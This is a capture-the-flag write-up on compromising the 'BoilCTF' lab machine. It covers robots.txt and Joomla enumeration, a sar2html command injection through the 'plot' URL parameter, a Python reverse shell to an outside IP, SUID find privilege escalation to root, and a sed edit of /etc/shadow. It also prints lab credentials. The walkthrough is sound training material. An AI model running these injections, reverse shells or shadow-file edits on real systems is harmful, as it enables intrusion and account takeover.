 # BoilCTF
IP: 10.10.8.187
<br>
First of all went to the ip in the browser and found apache2 server running. Then I went to robot.txt and found some interesting stuff there:

```
User-agent: *
Disallow: /

/tmp
/.ssh
/yellow
/not
/a+rabbit
/hole
/or
/is
/it

079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075
```

Interesting pages on joomla/:
- _test
- administrator
- build
- tests

```
MYSQL_DATABASE: joomla_ut
     MYSQL_USER: joomla_ut
     MYSQL_PASSWORD: joomla_ut
     MYSQL_ROOT_PASSWORD: joomla_ut
```

I even tried to use Joomla scaner, but didn't find anything useful.
```
Joomla version is: 3.9.12

> Joomla! Core 1.5.0 - 3.9.4 - Directory Traversal / Authenticated Arbitrary File Deletion 
> Joomla! 3.9.0 < 3.9.7 - CSV Injection
```

Also I spent a lot of time visiting all the folders, which was a really bad idea. Some interesting stuff that I found there, even though they were not useful at all.
tests/codeception/\_support/Shared/UserCredentials.php
```
http://boilctf.thm/joomla/media/editors/

codemirror/
none/
tinymce/
```

After some time, I realized that I need another tactic. I remembered that there was some weird thing on the _\_test_ page. So I went there. 
![sar2html](./imgs/sar2html.png)
Then I googled sar2html exploit and found what I needed. It turns out that to exploit the thing we just need to change the url a little bit.<br>
This is a good url which supposed to give us something whatever.<br>
http://boilctf.thm/joomla/_test/index.php?plot=LINUX<br>
But if we change it to:
http://boilctf.thm/joomla/_test/index.php?plot=;whoami and click on the Select Host button<br>
we get some additional result there, which is a response to our command:
![whoami](./imgs/whoami)

I set up an _nc_ listener on port *2222* and used a simple python reverse-shell which I found on the internet. Therefore, eventually my url looked like this:<br>
```
http://boilctf.thm/joomla/_test/index.php?plot=;python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.2.116.12",2222));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

And at this point we got a reverse-shell. Here is the contents of the _log.txt_ file that was in the folder.
![log.txt](./imgs/log.txt.png)
So we got usernames and password there.
username: _basterd_<br>
username: _pentest_<br>
password: _superduperp@$$_<br>
**But that actually doesn't matter :)**<br>

I used this command to search for files on the system with the setuid (SUID) permission bit set for the owner.
```
find / -perm -u=s -type f 2>/dev/null
```
There were many files, but the more experience you have the more you understand which files you should look for. So the interesting executable for me was _find_.
I went to https://gtfobins.github.io/gtfobins/find/ and found that I can escalate my privileges with this command: 
```
find . -exec /bin/sh -p \; -quit
```
So I excuted it and got root.

Even though that reverse-shell worked I wanted to connect via _ssh_ to the machine.
ssh was not on port 22 it. Reading ssh config file (/etc/ssh/sshd_conf) found that it was running on port 55007.

Also I couldn't connect directly to root so I created my own hash of a password. And changed the `/etc/shadow` file a little bit.
```
openssl passwd -6 -salt xyz yourpass
$6$xyz$VKswtvLoVpOLcpjDMIFXhxa8ukqqKSKHjcPBLZUk9NxWldmlFQY4stUGo.QjEhav7mp86ih2PRqYPqjkhWi5y.
sed -i 's/^basterd:[^:]\*:/basterd:$6$xyz$VKswtvLoVpOLcpjDMIFXhxa8ukqqKSKHjcPBLZUk9NxWldmlFQY4stUGo.QjEhav7mp86ih2PRqYPqjkhWi5y.:/' /etc/shadow
```
And that let me connect via _ssh_.